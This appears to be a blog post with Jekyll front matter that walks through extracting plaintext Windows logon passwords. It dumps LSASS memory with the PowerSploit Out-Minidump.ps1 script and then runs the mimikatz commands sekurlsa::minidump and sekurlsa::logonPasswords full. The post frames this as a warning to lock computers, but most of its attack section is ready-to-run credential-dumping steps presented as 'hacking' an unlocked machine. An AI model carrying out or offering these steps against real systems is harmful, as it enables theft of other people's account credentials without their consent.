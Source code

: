 ```yaml
---
layout: post
title: Your Windows passwords are vulnerable and hackable in less than 5 minutes
description: This is a simple how-to article demonstrating existing vulnerability that makes your Windows passwords are hackable.
keywords: Windows passwords, logon password, LsaProtectMemory, LsaUnprotectMemory, lsass.exe, Windows vulnerability, mimikatz terminal, powershell script, out-minidump, minidump
tags: [Windows, PowerShell, Vulnerability, Encryption, Decryption]
comments: true
---
```


**Did you know that your Windows passwords are vulnerable and hackable in less than 5 minutes?**

Yep, even in Windows 10, the method is still working nicely. **The method is not new at all.** So, let me show how you can reproduce it by using a simple exploitation tool and a PowerShell script. **Anyone can perform this hacking when you left your computer unlocked.** I'm not really going to explain the details, just go straight to the steps. Google Search is on your fingertips if you are keen to explore more.

### Getting started

First, you need to download or get this tool called [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest) (just get the binary package, e.g. **mimikatz_trunk.zip**) and this PowerShell script [Out-Minidump.ps1](https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1) by Matthew Graeber. Let's start!

### Using PowerShell to perform memory dump

To perform the [LSASS](https://technet.microsoft.com/en-us/library/cc961760.aspx) dump, we will use the PowerShell script, **Out-Minidump.ps1**. The flow of cmdlet will look like this:

![PowerShell cmdlet](https://i.imgur.com/1lQnyhZ.png)

```powershell
. 'G:\USERFILES\Desktop\PowerShell Playground\Out-Minidump.ps1'
# "dot sourcing" method to import function from the script

Get-Process lsass | Out-Minidump
# To perform the LSASS dump

Copy-Item .\lsass_868.dmp 'G:\USERFILES\Desktop\PowerShell Playground'
# Copy the dump file to desired location
```

### Using mimikatz terminal program to view the passwords

As you can see, `lsass_868.dmp` is the example of LSASS dump file captured using the PowerShell script. Now, it's time we use the mimikatz terminal to load in the dump file as follows:

```
sekurlsa::minidump "G:\USERFILES\Desktop\PowerShell Playground\lsass_868.dmp"
```

![mimikatz MINIDUMP](https://i.imgur.com/OPA0g0w.png)

Switching to MINIDUMP file, so now we can view the passwords. Now, run this command to display all the accounts and passwords available:

```
sekurlsa::logonPasswords full
```

![mimikatz logonPasswords](https://i.imgur.com/nWPZUIR.jpg)

Tadaa... Now I can see my actual Microsoft Account username and password in **a plain text**. As you imagine, most of people nowadays are still using the same password for almost everything. _Too bad.._ So, I expected you can picture all the consequences with this vulnerability...

### The existing vulnerability info

The fact is that the password is encrypted but it's useless as the implementation depends on two basic Win32 functions; [LsaProtectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714509%28v=vs.85%29.aspx) (the encryption function) and [LsaUnprotectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714510(v=vs.85).aspx) (the decryption function). And Windows stores encrypted user passwords in memory without using one-way hash which is decryptable using **LsaUnprotectMemory** function to a plain text.

### The bottom line

You will be safe as long as you always lock your computer when you're away. For more explanations and security advices, you might want to check the [original article here](https://www.fixedbyvonnie.com/2015/02/hack-passwords-of-windows-in-5-minutes). This short article is just to remind me or anyone else to always be careful in whatever we do especially with anything to do with our passwords and personal credential information. No system is perfect! DON'T LEAVE YOUR COMPUTER UNLOCKED.
